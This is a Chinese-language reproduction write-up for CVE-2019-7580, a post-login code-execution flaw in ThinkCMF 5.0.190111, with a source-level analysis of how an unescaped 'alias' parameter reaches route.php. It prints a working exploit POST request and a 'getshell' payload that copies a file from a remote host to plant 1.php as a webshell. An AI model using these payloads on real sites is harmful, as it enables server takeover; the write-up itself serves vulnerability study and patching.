 （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF 5.0.190111

三、复现过程
------------

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

    POST /portal/admin_category/addpost.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 183
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
    Connection: close

    parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2

2、然后访问：

    /portal/admin_category/index.html

触发

    include data/conf/route.php

操作，执行payload。下图以执行sleep(5)作为演示。

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId25.png)

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId26.gif)

#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

    1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\\data\\conf\\route.php 文件 网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\\think\\App::run()执行应用。

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId30.png)

在App.php的run()函数139行，执行sef::exec();

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId31.png)

通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId32.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从\$this-\>request-\>param()函数中得到请求中的参数传递给\$data。

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId33.png)

然后通过\$this-\>validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将\$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的\"添加分类\"操作。

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId34.png)

在addCategory函数中，184行这一句：

    $findRoute = $this->where('full_url', $fullUrl)->find();

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId35.png)

其中\$fullUrl和\$url的值如截图所示。 继续跟，

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId36.png)

在34行从数据库中查询查询相关数据，

    $routes      = $this->where("status", 1)->order("list_order asc")->select();

在`addCategory`函数的157行调用

    $routeModel->getRoutes(true);

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId37.png)

#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId39.png)

这里先

    include app/route.php

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId40.png)

然后，

    include data/conf/route.php

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId41.png)

最终执行我们的payload：`phpinfo()`。

![](resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId42.png)

参考链接
--------

> <https://xz.aliyun.com/t/3997#toc-6>
>
> <https://www.t00ls.net/thread-55060-1-1.html>
